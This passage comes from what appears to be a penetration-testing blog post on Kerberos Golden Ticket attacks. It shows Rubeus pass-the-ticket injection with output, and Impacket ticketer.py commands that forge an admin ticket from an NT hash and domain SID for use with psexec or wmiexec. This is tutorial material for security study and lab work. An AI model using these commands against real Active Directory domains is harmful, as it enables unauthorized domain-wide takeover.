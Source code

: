 

Inject `.kirbi` from Base64 Blog

```
PS C:\Users\m0chan> .\Rubeus.exe ptt /ticket:BASE64BLOBHERE

(_____ \      | |
 _____) )_   _| |__  _____ _   _  ___
|  __  /| | | |  _ \| ___ | | | |/___)
| |  \ \| |_| | |_) ) ____| |_| |___ |
|_|   |_|____/|____/|_____)____/(___/

v1.3.3


[*] Action: Import Ticket
[+] Ticket successfully imported!

PS C:\Users\m0chan> .\Rubeus.exe klist
```



### [](#header-3)From Linux 



I am going to try my best here to show how you can use Golden Tickets/Inject them etc from Linux but truthfully this is a learning experience for me as I 99% of the time carry this out on Windows bases platforms and/or **Domain-Joined Machines**



***Disclaimer: This is almost a identical copy/paste from Silver Ticket Section besides Syntax***



#### [](#header-4)ticketer.py

Here we find ourselves again on a Linux machine wanting to do Windows things so where do we look? You have one guess. Yep you're right. **Impacket** has a script called `ticketer.py`



I truthfully just learnt about this script after doing some Googling so I am not expert on it's internals but after a brief overview it appears as if `ticketer.py` allows you to generate `Golden Tickets`



The Syntax for Ticketer is as follows

```python
m0chan@kali:/scripts/> python ticketer.py -nthash d7e2b80507ea074ad59f152a1ba20458 -domain-sid S-1-5-21-1473643419-774954089-2222323452 -domain m0chanAD.local -id 500 FakeAdmin 
    
#This will export a .ccache file which can be imported by executing the below command

KRB5CCNAME=/scripts/m0chan.ccache 

We can then pass the -K switch through with any other Impacket scripts and it will automatically use the cached kerberos ticket, such as PSEXec, WMIExec (i think).
```

